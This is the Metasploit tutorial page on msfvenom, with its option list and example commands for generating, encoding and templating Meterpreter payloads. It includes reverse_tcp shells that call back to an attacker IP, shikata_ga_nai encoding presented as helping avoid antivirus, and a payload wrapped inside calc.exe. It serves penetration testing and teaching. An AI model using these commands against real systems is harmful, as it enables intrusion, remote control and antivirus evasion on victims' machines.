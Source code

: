 ```yaml
---
layout: "default"
title: "How to use msfvenom"
nav_order: 3
parent: "Getting Started"
grand_parent: "Using Metasploit"
---
```


Msfvenom is the combination of payload generation and encoding. It replaced msfpayload and msfencode on June 8th 2015.

To start using msfvenom, first please take a look at the options it supports:

```
Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled       <length>     Prepend a nopsled of [length] size on to the payload
    -f, --format        <format>     Output format (use --help-formats for a list)
        --help-formats               List available formats
    -e, --encoder       <encoder>    The encoder to use
    -a, --arch          <arch>       The architecture to use
        --platform      <platform>   The platform of the payload
        --help-platforms             List available platforms
    -s, --space         <length>     The maximum size of the resulting payload
        --encoder-space <length>     The maximum size of the encoded payload (defaults to the -s value)
    -b, --bad-chars     <list>       The list of characters to avoid example: '\x00\xff'
    -i, --iterations    <count>      The number of times to encode the payload
    -c, --add-code      <path>       Specify an additional win32 shellcode file to include
    -x, --template      <path>       Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -o, --out           <path>       Save the payload
    -v, --var-name      <name>       Specify a custom variable name to use for certain output formats
        --smallest                   Generate the smallest possible payload
    -h, --help                       Show this message
```

# How to generate a payload

To generate a payload, there are two flags that you must supply (-p and -f):

* **The -p flag: Specifies what payload to generate**

To see what payloads are available from Framework, you can do:

```
./msfvenom -l payloads
```

The -p flag also supports "-" as a way to accept a custom payload:

```
cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
```

* **The -f flag: Specifies the format of the payload**

Syntax example:

```
./msfvenom -p windows/meterpreter/bind_tcp -f exe
```

To see what formats are supported, you can do the following to find out:

```
./msfvenom --help-formats
```

Typically, this is probably how you will use msfvenom:

```
$ ./msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe
```


# How to encode a payload

By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:

```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
```

To find out what encoders you can use, you can use the -l flag:

```
./msfvenom -l encoders
```

You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus, but know that encoding isn't really meant to be used a real AV evasion solution:

```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
```

# How to avoid bad characters

The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:

```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
```

# How to supply a custom template

By default, msfvenom uses templates from the msf/data/templates directory. If you'd like to choose your own, you can use the -x flag like the following:

```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe 
```

Please note: If you'd like to create a x64 payload with a custom x64 custom template for Windows, then instead of the exe format, you should use exe-only:

```
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```

The -x flag is often paired with the -k flag, which allows you to run your payload as a new thread from the template. However, this currently is only reliable for older Windows machines such as x86 Windows XP.

# How to chain msfvenom output

The old ``msfpayload`` and ``msfencode`` utilities were often chained together in order layer on multiple encodings. This is possible using ``msfvenom`` as well:

```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
./msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
./msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```
